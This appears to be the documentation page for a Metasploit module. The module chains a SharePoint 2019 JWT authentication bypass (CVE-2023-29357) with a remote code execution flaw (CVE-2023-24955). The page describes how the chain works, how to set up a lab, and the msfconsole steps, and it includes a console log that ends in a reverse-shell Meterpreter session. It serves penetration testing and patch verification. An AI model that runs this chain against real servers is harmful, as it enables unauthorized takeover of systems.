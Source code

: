 ## Vulnerable Application
This module exploits two vulnerabilities in Sharepoint 2019, an auth bypass CVE-2023-29357 which was patched
in June of 2023 and CVE-2023-24955, an RCE which was patched in May of 2023.

The auth bypass allows attackers to impersonate any valid Sharepoint user. This vulnerability stems from the
signature validation check used to verify JSON Web Tokens (JWTs) used for OAuth authentication. If the signing
algorithm of the user-provided JWT is set to none, SharePoint skips the signature validation step due to a logic
flaw in the ReadTokenCore() method.

After impersonating the administrator user, the attacker has access to the Sharepoint API and is able to
exploit CVE-2023-24955. This authenticated RCE vulnerability leverages the impersonated privileged account to
replace the "/BusinessDataMetadataCatalog/BDCMetadata.bdcm" file in the webroot directory with a payload. The
payload is then compiled and executed by Sharepoint allowing attackers to remotely execute commands via the API.

### Setup 
Setup Windows Server 2022  [20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso](https://software-download.microsoft.com/download/sg/20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso).
Change the computer name to "sp1".
In network connections set the IP address of the machine to a static IP on the appropriate interface.
Set the DNS settings - one to the hardcoded address of the machine and the alternate to 8.8.8.8.
Add the AD DS role to the Server and then promote to a domain controller, use all the default settings. Name the domain "domain.local".
Download and install [SQL Server 2022](https://go.microsoft.com/fwlink/?linkid=2215202&clcid=0x409&culture=en-us&country=us) with all default settings.
Download [Sharepoint 2019 image](https://download.microsoft.com/download/C/B/A/CBA01793-1C8A-4671-BE0D-38C9E5BBD0E9/officeserver.img).

Mount the image on the newly configured Domain Controller.
Before installing the prerequisites you must go to Server Manager -> Local Server -> IE Enhanced Security Configuration -> Set to OFF
The prerequisites installer will fail to download prereqs without this.

Run the splash.hta file, then select Install Prerequisites, this will reboot the machine.
Remount the installer and rerun the PrerequisitesInstaller.exe. Once complete for the second time, click finish, this will reboot the machine.
Remount the installer and run setup.exe, this will install all the necessary binaries, this will reboot the machine

The SharePoint Products Configuration Wizard should launch automatically, if not you can launch it from the start menu.
Click next on the Welcome to Sharepoint Products page. It will tell you that it may have to reboot the machine, click Yes.
Select "Create a new server farm", click Next.

Input the following:
Database server: sp1
Database name: SharePoint_Config
Username: DOMAIN\\Administrator
Password: N0tpassword!

Click Next.

Specify Farm Security Settings:
Enter and reenter a passphrase:

Click Next.

Specify Server Role:
Single-Server Farm

Click Next.

Configure SharePoint Central Administration Web Application
No changes here, keep the port number default and keep NTLM selected,

Click Next.

You should now have a vulnerable version of SharePoint 2019 installed.

## Verification Steps

1. Start msfconsole
1. Do: `use sharepoint_dynamic_proxy_generator_auth_bypass_rce`
1. Set the `RHOST`, `LHOST`, and `HOSTNAME` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the SharePoint application.

## Scenarios
### SharePoint 2019 
```
msf6 exploit(windows/http/sharepoint_dynamic_proxy_generator_auth_bypass_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sharepoint version detected: 16.0.0.10337
[*] Discovered hostname is: sp1
[*] realm: 1a150b01-299a-48a9-afd4-379402fff4de, client_id: 00000003-0000-0ff1-ce00-000000000000
[*] Got Oauth Info: 1a150b01-299a-48a9-afd4-379402fff4de|00000003-0000-0ff1-ce00-000000000000
[*] Lob id is: XafKHq
[*] Successfully impersonated Site Admin: 00000003-0000-0ff1-ce00-000000000000
[+] The target is vulnerable. Authentication was successfully bypassed via CVE-2023-29357 indicating this target is vulnerable to RCE via CVE-2023-24955.
[*] BDCMetadata file already present on the remote host, backing it up.
[+] Stored the original BDCMetadata.bdcm file in loot before overwriting it with the payload: /Users/jheysel/.msf4/loot/20240206152102_default_172.16.199.72_sharepoint.confi_163878.txt
[+] Payload has been successfully delivered
[*] Sending stage (200774 bytes) to 172.16.199.72
[+] BDCMetadata.bdcm has been successfully restored to it's original state.
[*] Meterpreter session 4 opened (172.16.199.1:4444 -> 172.16.199.72:51458) at 2024-02-06 15:21:04 -0500

meterpreter > getuid
Server username: DOMAIN\Administrator
meterpreter > sysinfo
Computer        : SP1
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : DOMAIN
Logged On Users : 20
Meterpreter     : x64/windows
meterpreter >
```